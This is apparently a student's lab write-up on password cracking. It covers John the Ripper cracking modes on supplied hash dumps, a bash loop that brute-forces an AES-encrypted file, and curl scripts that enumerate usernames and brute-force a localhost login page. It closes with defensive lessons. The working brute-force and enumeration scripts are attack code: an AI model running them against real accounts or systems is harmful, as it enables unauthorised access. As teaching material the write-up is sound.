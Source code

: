 
## Part A-  BASIC PASSWORD CRACKING

**Skills to learn**: John the ripper cracking modes 

Check the files folder inside this directory. It should contain, 

  - Password hash files: easy_dump, medium_dump, hard_dump
  - wordlists folder: GawkerPasswords.txt, SonyPasswords.txt, YahooVoicePasswords.txt, passwords.txt

We will use John along with [jumbo patch](http://openwall.info/wiki/john/patches). Every file, namely, easy_dump, medium_dump, hard_dump has 5 users you need to crack

To view passwords already cracked by JTR for a password dump file, one can run the following command: ```~/JohnTheRipper-unstable-jumbo/run/john --show easy_dump```

### Cracking easy_dump

The following command tells JTR to try “simple” mode, then the default wordlists containing likely passwords, and then “incremental” mode. In other words, JTR uses default modes. 

```~/JohnTheRipper-unstable-jumbo/run/john easy_dump```

NOTE: ~/JohnTheRipper-unstable-jumbo/run/john is a path to the executable 

### Cracking medium_dump

The wordlist mode allows JTR to use thousands of passwords and generate their hashes to compare them to the hashes inside the file
```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/YahooVoicePasswords.txt medium_dump```

I was able to crack only one user with YahooVoicePassowrds. Therefore, I used another wordlist RockYouPasswords.txt. This wordlist is not present in this repo because of size but I believe one can use /usr/share/wordlists/rockyou.txt.gz in Linux. 

Through this command, I was able to crack rest of the users 

```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/RockYouPasswords.txt medium_dump```

### Cracking hard_dump

This one occupied most of my time. To crack hard users, we will use wordlists with "mangling rules" provided by JTR. 

```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/YahooVoicePasswords.txt hard_dump``` 

<br> 

```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/RockYouPasswords.txt hard_dump```

However, I was only able to find 4 users with this. For the 5th user, I used ```--rules:single```. This is a hybrid of mangling rules with simple mode. It turned out that 5th user password was in a wordlist but it was flipped. 


<br> 

## Part B - OFFLINE ATTACK 

**Skills to learn**: Bash scripting, openssl utility, Generating passwords from John the ripper to stdout 

Hacker encrypted the file: secret_file.aes256.txt
- It was encrypted using AES 256 using the openssl command line tool.
- The encrypted file is BASE64 encoded.
- The hacker thought that since passwords were insecure, they would first hash their encryption password using md5 to make it "more random" and harder to guess.
- The MD5 hash of the hacker's password was used as the password given to openssl for the AES encryption.
- The contents of the file are Lorem Ipsum in ascii text.

```bash
rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec

/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |
  while IFS= read -r password
  do
    #echo "\n ----------------------------------------"
    #echo "\n Password generated is $password"
    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2`
    #echo "\n MD5 hash of the password is $hash"
    #echo "\n Output while decryption ..."
    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt`
    if [ $? -eq 0 ]; then
        echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;
        fi
    fi
  done
echo "NOT FOUND :("
```

This is my exploit. Let's break it down to understand it. 

```rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec``` -> This is done to prevent the error "Crash recovery file is locked". 

```/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |``` -> Generate passwords from wordlist using John and output them on stdout. Later, pipe them so our while loop can read them line by line. 

```    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2` ``` -> Generate md5 hash and just take the hash value from output i.e remove extra text "(stdin)="

```    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt` ``` -> Try to decrypt using openssl. 

```bash    
if [ $? -eq 0 ]; then 
  echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;

``` 

-> $? refers to the exit status of the last command executed. If the command was successful, then it is 0 otherwise 1

```  echo $output | grep -P -n "[\x80-\xFF]" ``` -> Exit status of this command is 0 if non ASCII character were found

<br> 

## Part C - ONLINE ATTACK 

**Skills to learn**: curl command line tool, bash scripting, password cracking

Our goal is to get past the login page of the website below. We would need to find active usernames and crack password for one of the accounts. 

![Screenshot](files/website/website.png?raw=true)

### Cracking active usernames 

I tried a random username and I get a following alert:

![Screenshot](files/website/website-uname-not-found.png?raw=true)

I run the following script to find active usernames: 

```bash
cat facebook-firstnames.txt | head -n100000 |
  while IFS= read -r uname
  do
    #echo $uname
    output=`curl --data "username=$uname&password=123" localhost:5000/login 2>/dev/null | grep "Error. Username does not exist."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname" >> "valid_usernames.txt"
        echo $uname
    fi
  done
```

This script works by making a POST request to the server and if the response contains **"Error. Username does not exist."**, we can skip that username and look for other candidates

### Cracking password for an active user

I tried to login with an active user "adam" with a random password. This is what I got: 

![Screenshot](files/website/website-invalid-pass.png?raw=true)

Again, we can modify our existing exploit to search for "Invalid password." string here.

```bash
wordlist="500-worst-passwords.txt"

cat valid_usernames.txt |
  while IFS= read -r uname
  do
    echo "\n Current user $uname"
    cat $wordlist |
    while IFS= read -r passwd
    do
    #echo "\n Trying for $uname $passwd"
    output=`curl --data "username=$uname&password=$passwd" localhost:5000/login 2>/dev/null | grep "Invalid password."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname + $passwd" >> "valid_passwords2.txt"
        echo "$uname + $passwd"
        break
    fi
    done
  done
```

**NOTE**: Here, I am not using wordlists from **partA**. Instead, I am using 500-worst-passwords.txt I found on a random Github repo. This is because, users on social media sites are most likely to use bad passwords than linux users.

I found the password "123456789" for a user named "michael". We're in ;) 

![Screenshot](files/website/website-login-success.png?raw=true)

### SECURITY LESSON:

From this website and exploit, we can safely deduce two lessons 

- One should display same message for wrong usernames and passwords. Otherwise, it is easy for one to enumerate users. One username can be enough to find a security weaklink.
- Websites should have login rate limiting to prevent brute forcing  


